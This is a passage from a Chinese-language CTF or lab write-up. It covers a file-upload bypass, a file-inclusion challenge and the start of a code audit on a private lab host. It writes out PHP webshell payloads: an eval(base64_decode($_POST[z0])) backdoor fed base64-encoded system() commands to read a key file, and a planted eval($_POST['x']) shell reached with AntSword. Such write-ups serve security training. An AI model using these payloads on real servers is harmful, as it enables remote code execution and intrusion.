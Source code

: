 校验逻辑，上传picshell.jpg失败，说明对内容有校验

利用../php/免杀一句话/sqzr.php在重放器进行木马替换，修改上传后缀为php

![image-20241125174607509](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125174607509.png)

蚁剑连接，得到根目录key

### *34033 文件包含

![image-20241125180056872](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125180056872.png)

测试发现不让包含任意文件

![image-20241125181047509](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125181047509.png)

只有view.html页面才有内容，直接访问http://11.1.10.12:34033/start/view.html查看源码

![image-20241125181230562](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125181230562.png)

解码为[@eval(base64_decode($_POST[z0]));]    对z0参数有编码和执行

```
Hello=1&z0=phpinfo();      ————     Hello=1&z0=Hello=1&z0=cGhwaW5mbygpOyA=
```

在包含页面post处提交

![image-20241125182547840](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125182547840.png)

方式一：命令读取

```
Hello=1&z0=system('cat ls ../key.php');       ————       Hello=1&z0=c3lzdGVtKCdjYXQgbHMgLi4va2V5LnBocCcpOw==
```

![image-20241125183317996](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125183317996.png)

方式二：自己写一个马进行包含，用蚁剑连接

```
Hello=1&z0=eval($_POST['x']);  ————   Hello=1&z0=IGV2YWwoJF9QT1NUWyd4J10pOw==
```

在蚁剑中填写两个body参数，成功连接

![image-20241125211957617](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125211957617.png)

### 34034  代码审计

![image-20241125212331705](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125212331705.png)

![image-20241125212948501](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125212948501.png)

此段代码输出cmd参数值的字段长度，exec执行后不展示结果
